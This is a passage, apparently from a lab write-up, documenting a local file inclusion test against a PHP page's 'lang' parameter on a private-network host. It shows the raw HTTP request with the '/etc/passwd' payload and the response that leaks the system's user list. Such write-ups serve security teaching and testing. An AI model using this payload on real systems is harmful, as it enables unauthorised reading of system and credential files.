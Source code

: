 ```http
```

The response tells us that there is a parameter named `lang` available which is used to include a `php` file.
In the following we try to exploit this by testing for a `local file inclusion` (`lfi`) 

## test for directory traversal and lfi
### request

payload: `/etc/passwd`
```http
GET /secret_information/?lang=/etc/passwd HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

### response
```http
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 15:59:23 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2191
Connection: close
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
```